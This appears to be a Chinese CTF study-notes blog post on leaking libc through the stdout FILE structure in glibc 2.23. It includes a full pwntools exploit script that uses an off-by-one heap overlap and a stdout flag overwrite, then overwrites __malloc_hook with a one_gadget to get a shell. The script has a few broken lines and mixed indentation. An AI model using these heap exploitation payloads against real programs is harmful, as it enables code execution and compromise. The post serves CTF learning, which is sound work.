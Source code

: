```yaml
---
layout:     post
title:      IOfile泄露libc地址学习笔记
subtitle:   笔记
date:       2020-11-14
author:     X1ng
header-img: IOfile泄露libc.jpg
catalog: true
tags:

    - 学习笔记
    - IOfile泄露libc

---
```


由于做过的题太少了（太菜了），很多时候就算知道某个套路题，调试写出exp也很慢，平时不做题到比赛时已经把知识点忘光了，水篇笔记让我比赛的时候快速回忆IOfile泄露libc的知识点

## 利用方法

其实就是修改stdout的flag位为`0xfbad1800`,并且将`_IO_write_base`的最后一个字节改小，输出一些内容，这些内容里面就包含libc地址，具体的原理网上都可以找到讲的很好的师傅，可以看看[这个师傅的博客](https://n0va-scy.github.io/2019/09/21/IO_FILE/)

### 在libc-2.23.so下

构造堆块重叠时，需要让一块内存先进入0x70大小的fastbin中，然后再让它进入unsortbin中，最后修改unsortedbin下留下的`main_arena+88`地址

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkp2s5in4hj30jy080gn4.jpg)

覆盖最后两字节为`\xdd\xN5`，N需要爆破1/16，实际上应该是比`main_arena+88`大了0x100，比如上图在调试的时候可以用gdb的`set`命令将fd修改为0x7f8d780af5dd，方便调试

malloc两次之后就可以将chunk分配到`_IO_2_1_stdout_`结构体之前的一个地方，因为这段内存中的数据为`0xNNNNNNNNNNNNNNNN 0xNNNNNNNN0000007f`，可以绕过fastbin分配的时候对size的检查

然后填充payload：`'A'*0x33 + p64(0xfbad1800) + p64(0)*3 + '\x00'`

接收libc中的地址：`leak = u64(ru("\x7f")[-6:].ljust(8,'\x00'))`

如果有libc文件也可以用偏移直接算出libc基址

```python
IO_stderr = u64(ru("\x7f")[-6:].ljust(8,'\x00'))-192
libc_base = IO_stderr - libc.symbols['_IO_2_1_stderr_']
```

就完成了泄露

举个利用的栗子

```python
#!/usr/bin/python

from pwn import *
import sys
#from LibcSearcher import LibcSearcher
context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='pwn'
#libc_name='libc.so.6'
libc_name='libc-2.23.so'


def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
    sla(">> ",str(num))

def add(size):
    cho(1)
    sla("size?",str(size))

def edit(idx,con):
    cho(4)
    sla("index ?",str(idx))
    sa("content ?", con)

def delete(idx):
    cho(2)
    sla("index ?",str(idx))

while True:
	try:
		if local:
    		p=process("./"+binary_name)
   			e=ELF("./"+binary_name)
				libc=ELF("./"+libc_name)
		else:
    		p=remote('',)
    		e=ELF("./"+binary_name)
    		ibc=ELF("./"+libc_name)
        
		add(0x18)#0
		add(0xf8)
		add(0x68)
		add(0x18)
		edit(0,'a'*0x18+'\x71')
    delete(1)
    #off-by-one，构造堆块重叠
    
		delete(2)
    #将目标chunk放入fastbin
    
		add(0xf8)#1，让fastbin中chunk的fd中保存main_arena+88
		add(0x58)#2，与fastbin中重叠
		
		edit(2,'\xdd\x25')
    #修改低位两字节
		
		add(0x68)#4
		add(0x68)#5，该chunk在`_IO_2_1_stdout_`结构体附近
		
		edit(5,'a'*0x33 + p64(0xfbad1800) + p64(0)*3 + '\x00')
    #填充payload
    
		IO_stderr = u64(ru("\x7f")[-6:].ljust(8,'\x00'))-192
		libc_base = IO_stderr - libc.symbols['_IO_2_1_stderr_']
		print 'libc:' + hex(libc_base)
		malloc_hook = libc_base + libc.symbols['__malloc_hook']
    print 'malloc:' + hex(malloc_hook-0x10)
		#接收地址
    
		add(0x18)#6
		add(0xf8)
		add(0x68)
		add(0x18)
		edit(6,'a'*0x18+'\x71')
		delete(7)
		delete(8)
		add(0x168)#7
		edit(7,'a'*0xf0+p64(0)+p64(0x71)+p64(malloc_hook - 0x23))
		#故技重施，分配chunk到malloc_hook附近
		add(0x68,'b')#8
		add(0x68,'b')#10
		edit(10,'\x00'*0x13 + p64(libc_base + 0x45226))
		#填充payload，覆盖malloc_hook为one_gadget
		cho(1)
    sla("size?",str(100))
		#调用malloc		
		ia()
		break
	except:
		p.close()

'''
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''
```



### 在libc-2.27.so下

在libc-2.27环境下由于有了tcache，不需要特意将chunk分配到内存中的数据为`0xNNNNNNNNNNNNNNNN 0xNNNNNNNN0000007f`的地址上了

